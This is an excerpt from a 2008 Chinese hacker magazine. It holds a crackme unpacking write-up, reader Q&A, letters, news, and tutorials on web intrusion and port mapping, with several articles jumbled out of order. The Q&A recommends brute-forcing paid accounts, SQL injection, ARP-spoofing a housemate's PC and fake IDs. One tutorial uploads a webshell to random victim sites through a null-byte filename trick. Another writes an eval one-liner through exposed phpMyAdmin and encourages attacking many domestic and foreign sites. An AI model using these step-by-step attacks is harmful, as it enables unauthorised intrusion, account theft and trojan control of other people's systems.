工具→导出易格式原体，这步相当于 dump。保存为一个 .ecf 文件。

### 步骤三：

工具→易格式原体拉入 PE 骨架，选择刚才 dump 的 ecf，即可保存为一个 EXE 文件。

这样就算脱壳完毕了，如果你还不能运行，那可能需要易语言的库支持，安装即可……如果你不想安装这个玩意，大可把其库文件放到 exe 同一目录就可运行。现在再来用 PEiD 查看结果，如图 5。


啊啊，是 E language*，是不是很简单？有了这个方法，那么大家再遇到加壳的易语言程序就不要再害怕了，无论它是什么猛壳都一样。现在我们就着手开始逆向这个易语言的 crackme，找出一组可用的注册码。还是使用 E-Code Explorer，文件→打开文件→磁盘中的程序→选择那个脱壳后的 test.exe。然后就可分析出程序的整个结构树，如图 6。


点开窗体数据，看到窗体单元中的按钮 1 即是 crackme 的注册按钮，双击该按钮就可来到该窗口单元的事件代码处，如图 7。

从图 7 可看到该事件代码地址为 000089EA，再加上基址 400000 就是 004089EA。记下这个地址后，我们就请出 OD 来动态分析吧。用 OD 载入后，先 F9 让程序运行起来，然后使用快捷键 Ctrl+G，在搜索处填上 004089EA，即可来到该按钮事件处理处，在该地址按 F2 下断点，接着在 crackme 程序输入窗口随便输入用户名：kyo327，注册码：1234567，点确定后就断在了 004089EA 处，然后我们就老老实实地跟吧。当我们走到 00408C1C 时发现寄存器窗口的 eax 指向一个字符串是 18150，这就是该 crackme 程序的注册码，即：

```text
用户名：kyo327
注册码：18150
```

竟然是明码比较，具体我就不多说了，其实本文关键目的就是教大家如何方便地来脱易语言的加壳程序和如何快速定位易语言程序的关键代码位置，希望我这篇文章能够给大家带来点惊喜吧。

> 【本文介绍的相关工具和程序已收录在本期光盘中】

## 编辑点评：

这是一篇关于易语言程序方面非常好的文章，很推荐大家学习，文中提到的易语言程序的通用脱壳方法更是菜鸟们的最爱，而且 E-Code Explorer 的使用也不是很难上手。记得这个 crackme 刚发布的时候，我也看了一下，发现其算法也是很简单，如果你学习完本文之后，不妨试一下看看算法，或许就更完美了！


邮箱：QA_nohack@126.com  
主持人：徐师傅

**Q. 哥哥们，怎么用暴力或者用什么软件能计算出账号和密码？**  
在这里细说下一个网站，我没注册，因为要钱的，但是里面东西挺好的。我没账号也没密码什么的，用什么软件可以进去啊？并且不会被人发现，求救大侠……

**A.** 这里给你提供几种方法，一种就是暴力破解。比如嘟嘟这款经典破解器工具。使用的时候是输入错误信息后会跳转到新的页面，没有验证码和 IP 重复提交的限制，已经有很多的网站能通过嘟嘟获取密码了。当然，还可以针对你的实际情况后利用高效的字典进行破解。

第二种方法就是入侵网站获取数据库，首推的是 SQL 注入，可以直接猜解数据库，其次可以利用暴库、查默认数据库等等常规方法，当然也能利用上传漏洞或者旁注等方法获取 webshell 后得到数据库，总之就是想尽办法获取数据库；

第三种方法就是社会工程学了，例如网站会员 nohack 确认为 VIP 用户，且用户名较特殊（不是那种简单数字或者单词的用户名），可以搜索这个用户的信息，结合心理学或者入侵的手法获取他的密码。

> 原文链接：http://www.nohack.cn/bbs/thread-72123-1-1.html

**Q. 请教各位大哥！注册国外的游戏 ID 怎么样才能避开那些的认证？**

**A.** 一般来说，对于非境内游戏注册，就是我们常说的台服、美服等，限制的方法无非也就是 IP 和身份验证。对于 IP 的验证，可以通过代理服务器或者 VPN 来绕过，网上有很多免费资源，提供免费代理服务器的网站也是相当多的，你可以参考《黑客手册》官方站提供的代理。而对于身份验证，大多用到地址和身份证排查，而这种工具也有很多了，例如台湾身份证生成器、美国地址生成器等工具，结合这些信息，相信注册起来就比较容易了。对于黑客技术爱好者来说，这些都是动动脑子就能解决的。

> 原文链接：http://www.nohack.cn/bbs/thread-72320-1-1.html

**Q. 拿到一个 SQL+PHP 后台管理权限，如何完全控制服务器？**

**A.** 问题比较模糊，你入侵的网站环境应该是 MySQL+PHP 的组合，现在你拥有了后台管理权限，就需要想办法获取 webshell。通过后台获取 webshell 的方法比较多，常用的就是上传和数据库导出 shell。而对于 webshell 提权，当然还是得用 Serv-U、Radmin 或者替换服务等方法。如果这些方法不行，对于 PHP+MySQL 的模式，可以利用 nc.dll 或者 udf.dll 和一个具备 create 权限的 MySQL 账户，就能轻松执行系统命令了。而 MySQL 账户一般是可以轻松地在数据库链接文件里找到的，相信你会觉得在 PHP+MySQL 环境下提权比 ASP 平台要容易许多。

> 原文链接：http://www.nohack.cn/bbs/thread-72297-1-1.html

**Q. 怎样建立广域网的 NOD32 服务器？**  
我在家建了一个 NOD32 的升级服务器，可以让同局域网的机子从我这更新数据库，现在我想通过 IIS 让另外一个家中的电脑能从这台电脑升级数据，可是我设置好了 IIS 和 NOD32 后，另外一台机子更新时老提示“文件未找到”，于是我又在我那个更新网址后加了“:81”（这是我设置的更新端口号），后来 NOD32 又提示“服务器连接失败”。怎么解决？

**A.** 根据你的信息，你应该是掌握了如何架设“私服”NOD32 升级服务器的方法。首先确定你的 Windows 防火墙处于关闭状态，可以使用命令：`net stop sharedaccess`；既然你处于内网环境中，那么外网访问你的环境就必须得使用端口映射，例如你设置的访问端口是 81，那么必须利用路由的虚拟服务器规则来创建端口映射，把设置的端口映射到本地端口上（本地 IP 设置为固定 IP），如果你没有路由器控制权限，那么可以尝试使用 UPNP 规则的工具创建相应映射。

> 原文链接：http://www.nohack.cn/bbs/thread-72287-1-1.html

**Q. 求助一下 C 编程问题！有如下程序段，编译没有问题，但在组件时却提示：**

```text
LIBCD.lib(wincrt0.obj) : error LNK2001: unresolved external symbol _WinMain@16
Debug\xprocadd.exe : fatal error LNK1120: 1 unresolved externals
Error executing link.exe
```

程序段如下：

```c
#include <windows.h>
#include <winbase.h>

typedef void (*M)(LPTSTR);

int main()
{
    HINSTANCE LibHandle;
    M ProcAdd;
    LibHandle = LoadLibrary("msvcrt.dll");
    ProcAdd = (M)GetProcAddress(LibHandle, "system");

    (ProcAdd)("command.com");

    return 0;
}
```

**Q. 这是为什么呀？**

**A.** 代码是没错的，解决方法是，将 project-settings-link 的 project options 里的 `/subsystem:windows` 改成 `/subsystem:console`。因为 Win32 Application 的入口函数为 WinMain，Win32 Console Application 的入口函数是 main。也就是说，如果你编写传统的 C 程序，必须建立 Win32 Console 程序，但 VC 里面默认的是 Win32 Application，于是上面提及的链接错误就经常出现了。而 Win32 Application 和 Win32 Console 的区别就在于 VC 里链接参数不同。

> 原文链接：http://www.nohack.cn/bbs/thread-72281-1-1.html

> Q：我和朋友共用一根线，加了一个路由器，我如何入侵他的电脑？

A：其实内网环境的入侵手法相对简单，早期的 Win2000 几乎可以利用 IPC$ 漏洞进行通杀，可是在 Windows XP 环境下似乎并没有较好方法。首先你可以尝试一下进行漏洞扫描，如果对方的系统刚进行重装未完全打尽补丁，那么就能轻松利用远程溢出漏洞。因为在内网互访下，很多协议是不受限制的。如果没有远程溢出漏洞，那么就使用 ARP 欺骗吧，使用 WinZarp 这样的嗅探工具，使对方访问的网页中插入你的网页木马。另外，第三方软件，例如 RealPlayer、暴风影音等都可以被利用挂马，这种方法成功率是很高的。

原文链接：http://www.nohack.cn/bbs/thread-72149-1-1.html

- Q：游戏账号被盗该怎么办？请教几点：
- 1. 现在网吧盗号是什么状态？
- 2. 登录账号之前做什么检测？
- 3. 现在破解网吧还原都有什么工具和方法？
- 4. 号被盗之后有什么有效的办法把损失减小到最少？
- 5. 所在网吧原来是还原，被 K 后启用冰点 6.0，现在最新版本是什么呢？

- A：
- 1. 网吧盗号手段几乎都是先破解还原系统，然后安置盗号木马。更有甚者是可以带破解还原和利用相关漏洞感染的，也不排除入侵服务器进行批量控制；
- 2. 登录账号前不要访问非大型网站，因为网吧为了节约资源几乎不会安装杀毒软件，同时系统存在未更新的漏洞和安装许多存在漏洞的第三方软件，所以在网吧中网页木马的几率是非常之高。其次登录账号时可以利用比较成熟的软件，或者使用 360 安全保险箱等工具，对密码进行实时保护。因为类似保险箱这样的工具会对插入的 dll 以及键盘钩子等恶意行为进行保护和报警；
- 3. 破解网吧还原的方法有很多，大家可以针对具体环境实施，详情可参考本刊相关文章；
- 4. 号被盗后立刻通过有效途径找回，比如密保或者寻求客服，尽量让别人不能在第一时间对你的账户进行利益上的损坏；
- 5. 最新所知的冰点最新版本 6.4 也可以利用工具获取密码，不要盲目相信还原保护，只有相信自己的安全意识才是最有效的。

原文链接：http://www.nohack.cn/bbs/thread-72187-1-1.html

## 29 写信随笔

## 黑·学

城市／绍兴市  
论坛 ID／无  
邮件／373768581@qq.com

> →有什么建议和意见

编程语言学习与英语学习有共鸣吗？我的高中英语有点烂，说实话，那些密密麻麻的程序语言我一点也不明白这是怎么回事，一些专业术语更没头没脑，但是我一看见那些语言和术语，我就觉得兴奋。我想，这一定比玩游戏刺激多了！对于那些黑客来说，我估计我是纯白的象征，所以，我希望黑鸟黑油亮。

城市／沈阳市  
论坛 ID／沈阳小菜菜  
邮件／402144903@qq.com

> →对于杂志内容，你有什么建议？

出一本关于那些 Linux、BSD、Solaris、AIX、Mac OS X 这些专业术语是什么意思的书，还有专业名词的解释，如协议、命令、英文指令、端口等。什么都有，虽然我现在看不懂，以后我会看懂吧？

**菜鸟中的菜编：** 有句古语叫“万事开头难”！对于学习来说，兴趣是最重要的！只有自己感兴趣的东西，才不会在学习的途中感觉枯燥，并能由此摸索出适合自己的学习方法。另外，坚持自己正确的选择，挑选适合自己的学习内容，不去追新追强，而是踏踏实实地从基础、从实际出发，一步一步边学边理解，完全消化并吸收完知识后再前进。这样的话，底蕴充足，在挑战更高层次和更新的知识时会让你事半功倍。

城市／威海  
论坛 ID／幽魂の狼  
邮件／jiang_zhen@126.com

> →对于这两个月杂志改版，你还有其他看法吗？

我是新手，绝对菜鸟。很多东西还是看不懂，我想如果坚持下去会好的！我会坚持支持《黑客手册》，希望杂志越办越好！哈！刚发现本地的销售处，以后买书订书更方便了！

**搞推销导购的菜编：** 许多朋友都说“黑手”在自己所在的地方不好买，我们分析了后得出：卖得太快……进货太少……如果大家所在地方没有“黑手”出现，请先咨询离你最近的代理点，详细地址及电话请仔细翻阅杂志！

## 黑·菜

城市／山东淄博  
论坛 ID／szkzn  
邮件／szkz0132@163.com

> →对于这两个月杂志改版，你还有其他看法吗？

不错归不错，但缺点在于书中教的入侵方法过于追求片面的傻瓜化，很少涉及实质的东西。虽然很适合我们菜鸟，但我们也不想一辈子当菜鸟。应多写些关于原理或代码分析之类的东西，教我们如何发掘漏洞，而不是拿着别人的工具到处扫。

众口难调是很正常的，只要一步步走踏实了，别失了自己的风格，我相信《黑客手册》一定能做得好。新闻和硬件作为黑手的重头戏，自然不能放松要求。高手专栏不要做成鸡肋，要贴近实际，别教些八百辈子都用不上的技巧，呵呵，那就郁闷了。虽说是高手专栏，好歹也照顾一下我们菜鸟么，哈哈……

**永远不是高手的菜编：** 感谢这位读者指出的问题，任何一次的入侵在初学者眼里的理解都是不同的，自然看问题的角度就不同了。不同的东西总能发现一些问题，杂志每期的文章都有不同的风格，有的偏重理论，有的偏重步骤，有的尚深，有的浅显。关键在于选择自己现阶段所能学到的知识，这才是最重要的。建议大家好好收藏每期杂志，当你的知识经验积累到一定程度，再翻阅以前所无法理解的文章，也许会有更新的发现哦！


## 黑客手册

## 安全网络

## 非法安全

黑客避港指南  
www.nohack.cn  
原生态黑客  
【本手册仅随CD-ROM赠送，不得单独销售】

NO.2008.05  
每本9元

NOHACK.CN

中国计算机安全港信息图书，非法入侵他人计算机是一种盗窃行为

## 凭什么说我是黑客

- 采访中国X黑客小组——当家“流氓”
- 采访自由软件说法委员会 coordinator
- Windows：微软泄露 MS08-011
- Linux 2.6.17-2.6.24.1
- Linux：系统新闻
- 关于技术与态度的一些思考
- 菜鸟：入侵式安全我们看着办？
- 专题：我的私人 Lab，网络实验室搭建 DIY
- HACK
- 传统渗透方法的应用
- IIS 下的 MySQL 提权
- 对网易的一次友情测试
- 入侵 hackdiy.com
- 猪猪字幕组引发的一次入侵检测
- 新的攻击方式？搜索引擎的启发


## 开卷了

三月，最能感受到春天的气息，尤其是在经过一场百年罕见的大雪灾之后。三月的春天，大地开始复苏，春天刚从冬天的睡梦中醒来，季节性的变化，一切都按照大自然的规律，悄悄地进行着。

三月的春天是一个孕育的季节，大自然中的一切都开始在萌芽阶段。所谓“一年之始在于春”，可见春天是一个开始的季节。所以春天给人带来了希望，但更多的也给人带来了惆怅。因为当你开始计划今年想做什么的时候，同时春天的迷茫也会使你不知所措。在春天计划一年的事情是非常好的，但是社会总是在变化，所以你会觉得有些急，但又有些不急。

2008年的北京奥运会可能注定了不平凡的2008年。2008年的3月，节前节后最轰动的网络事件莫过于“艳照门”了；而对于逆向爱好者来说，不平凡的2008，使得很多菜鸟成长，使得潜水的大牛们开始慢慢浮出水面。

水，潜久了，总有浮出水面的一天；但大牛们的三言两语，往往会震撼人们的心灵。随着网络的急速发展、技术的日益进步，很多技术开始分离，但却又是那么紧密联合，比如我们常说的免杀，这是近几年非常流行的词，但是免杀又与入侵、破解方面联系得那么密切。

当你配置好一个木马的时候，传到目标机器时被杀软无情地“杀害”，你就会考虑如何才不会让马儿给杀软 KILL，所以你得进行免杀处理，其最终目的也是要入侵目标机器，从而获得绝对的权限。

最近发现有不少入侵爱好者也开始向逆向技术转变了。不知是逆向技术真的那么迷人，还是可以从中获得利益？但起码可以知道，虽然越来越多的人喜欢黑客方面的技术，但是也有越来越多的人喜欢逆向技术。

作为一名逆向爱好者，我感到很欣慰，因为可以有更多的人投入到这方面的技术研究中，也会有更多的人因为技术交流从而使自己有所提高，更会使逆向技术越来越迷人。

如果你是一个逆向爱好者，那么你就能从代码中体会出一些迷人的东西来，因为毕竟是逆向别人的思想。一个思想与另一个思想的交流、沟通，那么你就能获得两个思想了。一个人的力量毕竟是有限的，只有集合更多的思想，才能把技术推向一个高峰，逆向最大的乐趣莫过于此。

> 曾经有人说到：“给我一个程序，我就能给回你一份源代码。”足见逆向的迷人之处了。但是虽说如此，我还是劝大家别做与法律相抵触的事情，所以大家也不要误入歧途，以免造成不必要的后果。有鉴于此，大家也可以搜索翻阅相关的法律说明。

最后我想说的是，春天来了，你做好准备了吗？希望2008有你很精彩，“黑手”有你更精彩！“黑手”将与你一起入门，在2008年将为大家送上更多更精彩的内容。

## 新闻摘要

哎哟……农历春节终于过完了，那个“艳照门”真是搞得我没怎么睡好觉……给大家补拜个晚年了！晚年幸福……春节过完不久就是2.14，还是无法好好睡觉啊……接着又是元宵节了，这还怎么睡得好啊！！唉……最近有啥相关的呢？说说 MS 收购 YAHOO、Linux 内核漏洞、Vista SP1 破解吧！这是为什么呢？（本期流行榜之一）


## MS 收购 YAHOO！

刚进2月，微软（MS）宣布溢价62%收购雅虎（YAHOO），计划于2008年下半年完成，收购现金加股票总计涉及446亿美元。但微软向雅虎发出收购要约后，其股票下跌了12.8%，使得收购要约的实际价值下降到410亿美元。此后，雅虎董事会拒绝了该报价，称该报价大大低估了雅虎的资产价值。而且有报道称，雅虎正在与新闻集团商谈一份价值500亿美元的复杂协议，该公司还准备与谷歌讨论搜索广告合作。

相关人士称，新闻集团收购雅虎是不可能发生的，有关双方谈判的报道没有夸大其词，也许这只是雅虎的谈判策略而已。在微软给出报价的前一天晚上，同时有两家私募资本投资集团也计划收购雅虎，且至少有一家向新闻集团抛出了橄榄枝，但新闻集团表示对此“不感兴趣”。

目前，微软一方的财务顾问为摩根士丹利和黑石集团，雅虎一方则是高盛和雷曼兄弟。许多人认为，微软收购雅虎，也无法拉近与 Google 的差距。摇摆，据称，雅虎希望的收购价格最低为40美元/股，究竟 MS 收购 YAHOO 的最终结果是怎样，我们也许还是要等待奥运后吧？

**小迷点评：** 最近比较关注 MS 收购 YAHOO！到底成功与否，这应该会影响到互联网的格局。YAHOO 作为许多人最早了解的互联网搜索引擎门户，使用其服务的朋友还是很多的。而 MS 就不说了，你现在电脑的操作系统也许就是它的吧。如果以后有个 MSHOO，这玩意儿是什么意思呢？

## 北京网评会通报“艳照门”事件

北京网络舆情信息评议会最近召开本年度第一次会议，就近期北京地区网络媒体有关香港艺人所谓“艳照门”事件的报道及信息传播行为进行评议。某知名门户网站因肆意传播相关色情乃至淫秽照片，被点名批评。

相关负责人指出，在对此事件的报道与传播中，个别网站的所作所为不仅超越了社会道德的底线，也越过了法律的底线。这些“越线”行为包括：在报道与传播中对当事艺人明星有违社会道德与伦理的行为，一味炒作和渲染，而根本不做任何评判，极易对喜爱“追星”的青少年，特别是未成年人产生误导。更有甚者，个别网站利用搜索引擎、论坛、博客、相册等方式，大量传播名为“艳照”，实质上大多属于色情乃至淫秽的相关照片，使得互联网上一时间出现了一股群体性传播淫秽照片的浊流。

某知名网站在这次评议会上遭到严厉谴责，主要是其所提供的搜索及相关功能没有对“艳照”相关的信息进行有效封堵、屏蔽，且让大量色情、淫秽照片长时间留存。

**小迷点评：** 功能强了也吃亏吧，乖！在互联网中，只要你一不小心留下了踪迹，别人就有可能通过各种渠道找到你。这段时间的“门”事件还真是多，大家应该都知道是从哪里起源的吧，呵呵……

## 漏洞公告栏

## Vista SP1 官盗一疏，正版验证被轻松破解

微软的 Vista SP1 补丁会终结现在最常用的两种 Vista 破解手法：OEM BIOS 仿真和 grace timer 宽限期破解。现在的 Vista SP1 安装后，以前被激活的系统会要求你再次激活，如果不能满足它的要求，系统便会陷入喋喋不休的“劝导”状态。

然而，目前网络上的某些地下站点已经出现了破解方法。有用户称，通过破解方法，只需要在系统命令行模式下，几秒钟的修改设置就能骗过正版验证手续。

小迷点评：大家平时使用 Vista 时，应该都是采用的最常用的两种 Vista 破解手法：OEM BIOS 仿真和 grace timer 宽限期破解。微软在推出 SP1 后妄想终结这两种破解手法，看来还是人民群众力量大啊，技术至强！


更新之前的信息


更新之后的信息

## Linux 内核曝危险漏洞

来自 Secunia 的安全人员已经发现了 Linux 内核中的“危险”等级安全缺陷，这一版本的 Linux 内核被大量的分发套件所用。该缺陷包含三个 bug，可让未经授权的用户读取/写入内核内存位置或访问某些资源，攻击者可以利用该漏洞制造拒绝服务攻击，泄露保密信息甚至获得 root 权限。

该缺陷影响所有版本的 Linux 内核 2.6.24.1，其中一个打了补丁仍不奏效。这些应用该内核的分发套件包括 Ubuntu、Turbolinux、SuSE、Red Hat、Mandriva、Debian 等，几乎涵盖了绝大多数 Linux 分发产品。

> 小迷点评：危急啊！所有采用 Linux 内核 2.6.24.1 的分发套件都有可能存在这个安全缺陷，是偶认识 Linux 来的第一次。这些分发套件大多数都是比较流行的，拥有的用户群也不少，这回开源爱好者又会使自己技术提高一个等级吧！

## 肉鸡孵化

## 手把手教你拿 shell 之动易上传漏洞

征稿启事：过完年，大家该上学的上学，该上班的上班。该给我写稿的朋友不要吝惜笔墨给我写稿，本栏目现征稿，将你们拿 shell 的过程一步一步地写出来，手把手地教给菜鸟朋友们，过程细节越详细越好。但切忌内容灌水冗长。

■ TSP

从本文你可以学到：

- 手工利用上传漏洞时各个工具的具体使用

我是从去年的这个时候接触2月份的手册，第一次见到就爱不释手！可能和大多数菜菜想的一样，手册是我们的希望！看手册以来这是我第一次尝试性投稿，技术自然是菜菜级别的，不敢在各老鸟面前班门弄斧！（我先提点意见，我想很多菜菜应该都和我有同样的感觉。看了这么久的黑手，很多文章我都觉得写得很精彩，但是由于我们的基础实在是……所以看了之后，根本就不懂，有时候跟着文本上的葫芦画瓢，也弄不出来！比如有些讲到拿了 webshell 后提权，只是一下带过就得到账号密码，就远程连接了，然后就在内网开始渗透了。对于我们这种菜菜本来基础就不好，更喜欢得到详细的步骤！再比如有的时候大鸟们就讲到备份一句话，传小马、大马的，其实最开始我连一句话怎么用都不懂，现在还不是很懂 webshell 的高级应用。我知道编辑们已经一再强调要照顾我们菜菜，但是我们的渴望实在太大，需要更多的、大量的、最最基础的东西。这就算是我代表众多菜菜提的意见吧！）这篇文章是带给我们众多还没有 shell 的菜菜的，大虾、老鸟跳过！言归正传，我给大家带来的是：动易文章系统拿 webshell。

- 1. WSockExpert（我们的菜菜一定要熟悉运用啊，抓包好帮手）
- 2. WinHex（改值用的）
- 3. nc.exe（提交用的，也要熟悉用啊）
- 4. 小马一个

### 工具准备：

### 找目标

首先在百度里搜“Powered by FreePower Ver 3.6”，出来了一大堆的网站，这是菜菜们的福音，如图1。我们这里随便找一个站，如图2，然后注册会员，成功注册到会员后我们就小有所成了。现在是关键的一步了，我们点击进入“文章管理”，选择“添加软件”，如图3。进入上传编辑软件的界面，要求上传的文件不大于2M。嘿嘿，我们的马儿怎么的也够吧！

这个时候是今天的重点了，要用到我们上面提到的工具 WSockExpert。我们打开 WSockExpert，然后选择我们添加软件的这个页面，如图4，然后我们就明确了目标，准备传我们的小马了。找到上传软件的地方，上传时弹出如图5的框框，当然了，要是直接可以上传 asp，那人家就不要混了，天下没有白吃的午餐。但是不要灰心，看看我们的 WSockExpert，有东西了吧！好戏上演，新建一个文本为 1.txt。点开 WSockExpert 中第三行有 POST 的那个，如图6，把下面的数据全部复制到 1.txt 中（注意选最下面的回车一行都要复制哦），再点开第四行，这是我们提交的小马的内容了，也同样复制到 1.txt 里面。然后注意了！菜菜们，看到这行：

> Content-Disposition: form-data; name="FileName"; filename="C:\Documents and Settings\Administrator\桌面\TSP\八马集\yijuhua.asp"  
> Content-Type: text/plain

其中我们在 yijuhua.asp 后面加上一个空格，再加上 .rar 后就变成了 yijuhua.asp .rar 了。因为我们一共加了5个字符，所以在上面的 Content-Length: 4133 中要把尾数加上5，就变成了 Content-Length: 4138 了，然后保存！为什么要在后面改为 rar 呢，是因为在图5中我们看到可以上传的类型了啊。（到这里我们离成功已经不远了）现在要用到我们的第五个工具 WinHex 了。用 WinHex 打开保存的 1.txt，然后找我们刚才改的 yijuhua.asp .rar，点下空格的地方，看到左边的那个 20 的数值了吗？把前面的那个 2 改成 0，就是 00 了。记住保存啦！成功 70% 了，兴奋 ing！

最后就要用我们的 nc 来提交了，但是要在 CMD 中用哦。首先打开 nc 所在的目录，我的 nc 和 1.txt 都放在 D 盘，关键了，输入这条指令：nc 目标网站IP 80 < 1.txt 再回车（80 是端口号），如图7。我们是不是已经看到了上传成功几个字了！就是说我们的马儿已经在奔跑了，记住 Uploadsoft/……那一串地址，复制后加到域名后面便是我们的 shell 地址了。最后我们要做大马了，干什么都可以！然后就拿到了我们的 webshell，如图8。到这里我们的目标实现了，总结下，对各位菜菜来说，我们一定要学会抓包、用 nc 提交这些基本的方法，因为我也是菜菜，所以知道菜菜的需要是什么！没有技术含量，见笑了。

祝：手册越办越好，我会永远支持你们的！  
最后再打个广告：因为我实在想晋级，所以希望有识之士能够给我评分支持！  
我的 QQ 是 346158364。


图1


图2


图3


图4


图5

## 利用 PhpMyAdmin 配置不当拿 SHELL

- [annmlt [ O.S.T ]]
- 从本文你可以学到：
  - 利用 PhpMyAdmin 配置不当拿 SHELL
  - PhpMyAdmin 的大致使用

最近学 PHP，啥都要自己弄，光是一个 phpMyAdmin 就害我调试半天。PhpMyAdmin 是个好东西，功能强大，强大到拿 shell 毫不费力，看来太强大也不一定是好事啊。下面说说拿 webshell 的具体方法，准备工具：PHP 大马一个，PHP 一句话连接端，大脑，baidu.com。

百度之前先介绍一下 phpMyAdmin：“phpMyAdmin 用 PHP 编写，可以通过互联网控制和操作 MySQL。通过 phpMyAdmin 可以完全对数据库进行操作，例如建立、复制/删除数据库等等。”看到“完全”二字没，意思是我们如果搞到 phpMyAdmin 里 config.default.php 或是 config.inc.php 里的内容，就可以知道 ROOT 的密码；有了 ROOT 的密码，就可以对数据库进行完全的操作了。至于如何搞到 ROOT 密码，那就各显神通了，最常用的就是 PHP 注入时的 load_file() 了，不过这个不在今天的讨论范围，省略。

首先百度一下，关键字我用：inurl:/phpmyadmin/index，找到的网站不是很多，如果百度给的是 phpMyAdmin 的相关信息，就说明这个网站基本上是可以利用的，如图1。很多网站往往安装了 phpMyAdmin 都没有给其设置密码，或是设置了密码但是 config.default.php（位于 libraries 目录下）里的 $cfg['Servers'][$i]['auth_type'] 变量没有修改，我们修改 $cfg['Servers'][$i]['auth_type'] = 'cookie' 就可以使别人访问后台的时候要求输入账号和密码了，而我们就是利用这个管理员粗心的地方来拿 SHELL 的。管理员粗心的话，没有修改这个地方，我们就直接可以访问后台，操作数据库了。我这里找到一个，就拿它做示范了，输入“网址 + phpmyadmin”的目录就可以进去后台了，不需要任何密码输入，然后就看到了 MySQL 的数据库结构，能看到每个数据库以及数据库里的每个表。我们随便挑一个数据库进去，然后点 SQL，如图2，输入我们的 SQL 语句：

```sql
Drop TABLE IF EXISTS a;
Create TABLE a (cmd text NOT NULL);
Insert INTO a (cmd) VALUES('<?php eval($_POST[cmd]);?>');
select cmd from a into outfile 'D:/example/hg.php';
Drop TABLE IF EXISTS a;
```

我给大家解释一下语句的意思：第一句，如果存在表 a 就删除这个表（不要和数据库里的任何表名重复了，以免删除人家重要数据）；第二句，创建一个表 a，字段 CMD；第三句，字段 CMD 赋值为 <?php eval($_POST[cmd]);?>，这个就是我们通常用的 PHP 一句话了；第四句，将 CMD 的内容导出到一个硬盘上的路径，我用的 D:/example/hg.php，这里就涉及要知道网站的虚拟目录了，后面再给大家演示如何爆出 WEB 路径（注意，一定是个可写的目录）；第五句，同第一句。接下来我们要用网站的真实 WEB 路径代替上面代码中的 D:/example/hg.php。

## 编辑点评：

说实话，这动易的版本忒老了，漏洞也是很多年前的了，拿出来也是炒现饭了，其实利用工具可以很容易就实现的。不过作者是第一次投稿，值得鼓励。并且像作者说的，我们很多朋友跟作者感觉一样，很多东西看了也还是照画不出来。所以就选择这篇文章，手把手、一步一步地教你手工利用上传漏洞。我们“手把手”系列将会继续下去，菜鸟朋友有福了。最后顺便说一下，TSP 作者你截图太多了，为了节约版面我删除了许多。


> 首语

总有冬天的阳光，才能让你感受到舒心的温暖。今年的冬天特别冷，所以我总是躲在房子里，透过窗户看太阳。新闻里播着南方的雪灾，得意是因为依然能看到久违的笑脸，因为这场雪让人们感受到了关怀和温暖。你会发现，无论难题多大，道理是相同的：正如无论何时，脆弱、焦躁的人，或者生者都在寻访。

## 入侵不可或缺的——端口映射

- 从本文您可以学到：
- 了解什么是端口映射
- 学会怎样简单地建立端口映射

虽然互联网是一个开放的环境，但是在特定的网络环境中，还是有一定的局限性的。比如局域网中的某台系统开放了 WWW 或 FTP 服务，但是局域网外的用户却没有办法进行直接的访问。因此要想让外网用户访问局域网中的系统服务，就必须要进行相应的端口映射操作才行。其实端口映射在入侵的时候也常常用到……

## 一、什么是端口映射

端口映射功能是将一台主机的“假”IP 地址映射成一个“真”IP 地址，当用户访问提供映射的主机的某个端口时，服务器将请求转到局域网某台提供这种特定服务的主机上。利用端口映射功能还可以将一台“真”IP 地址机器的多个端口映射成内部不同机器上的不同端口。端口映射功能还可以完成一些特定代理功能，比如代理 FTP、POP、SMTP、TELNET 等协议，一台主机理论上可以提供六万多个端口进行映射。

端口映射分为“动态”和“静态”两种，这里我们主要讲一讲静态端口映射。静态端口映射就是在 NAT 网关上开放一个固定的端口，然后设定此端口收到的数据要转发给内网某个 IP 地址和端口，不管有没有连接这个映射关系都会一直存在。于是可以让公网主机主动访问内网的一个电脑，NAT 网关可以是交换机、路由器或其它拥有独立 IP 地址的电脑。端口映射功能可以让内部网络中某台机器对外提供网络服务，比如处于内网的黑客常常利用端口映射来完成反弹连接木马的控制操作。

## 二、端口映射如何做

端口映射只是一个大的解决方法，而在实际的操作中常常需要根据自己的网络环境，利用不同的手段来完成端口映射的操作。下面我就为大家介绍几种网络中常见的建立端口映射的操作方法。

### 1. 端口映射方法一

现在很多家庭都拥有多台计算机，因此很多人就利用 ADSL 架设了一个家庭局域网，因为很多 ADSL 厂商的产品都带有路由功能。首先打开浏览器输入网关的地址，或者直接输入当前的 IP 地址，这时会弹出一个对话框要求用户输入密码。现在很多 ADSL 在出厂时都带有初始密码，比如在输入用户名和密码处输入 admin，等了一会儿就进入 ADSL MODEM 的管理界面，如图 1。

成功登录后用户便拥有了 ADSL MODEM 的超级用户权限，进入管理界面后点击旁边的管理树，选择“其它设置”选项中的“NAT”一项。在“NAT”这个项目中选择“新建”按钮，在弹出的“NAT 规则添加”窗口中进行设置。在“规则类型”中选择“REDIRECT”，在“本地地址”中填入需要映射的 IP 地址，比如 192.168.1.4。然后在“起始目的端口”和“终止目的端口”中设置映射的端口，比如我们这里设置灰鸽子木马常用的 8000 端口，当然大家可以更换为其它需要映射的端口。其它选项设为默认的就可以了，如图 2。点击“提交”按钮就完成设置。现在我们就把这台主机的端口映射到公网网上了。


PHPMYADMIN 有 2 个地方可以利用暴露出 WEB 路径，一个是访问 `http://url/phpmyadmin/libraries/select_lang.lib.php`，另一个是访问 `http://url/phpmyadmin/themes/darkblue_orange/layout.inc.php`，我们 2 个都试试，访问后爆出路径了，如图 3、图 4。

还是个 LINUX 的服务器哦，我们记下它的路径，将 `D:/example/hg1.php` 改成 `/usr/local/apache2/htdocs/hg1.php`，执行这条 SQL 语句，成功执行，如图 5。访问 `http://url/hg1.php`，出现一片空白，我们用 PHP 一句话木马连接，再传个功能强大的 PHP 木马就成了哦，如图 6、图 7。

当然，我们用百度搜完了还可以用谷歌，国内的搞完了咱再去搞搞国外的。以 PHPMYADMIN 的使用程度来看，拿几个 shell，应该是没什么问题的吧。


> 编辑点评：

phpMyAdmin 真的是个强大的程序，MySQL 的强大造就了它的强大，它的强大造就了我们的强大。各位站长如果用了 PHPMYADMIN，赶快检查 `$cfg['Servers'][$i]['auth_type']` 是否设置了呢？


### 2. 端口映射方法二

如果你所在的局域网使用的是其它架设形式，这样就要使用其它的端口映射方法进行操作。熟悉灰鸽子木马的用户都知道，木马自身就带有端口映射的功能。首先运行灰鸽子客户端程序，接着点击“工具”菜单中的“内网端口映射”命令。现在在弹出窗口的“Vport 服务端配置”中设置“控制端口”选项，然后再选中其中的“开机主动运行”选项，再点击“生成服务端程序”按钮即可。

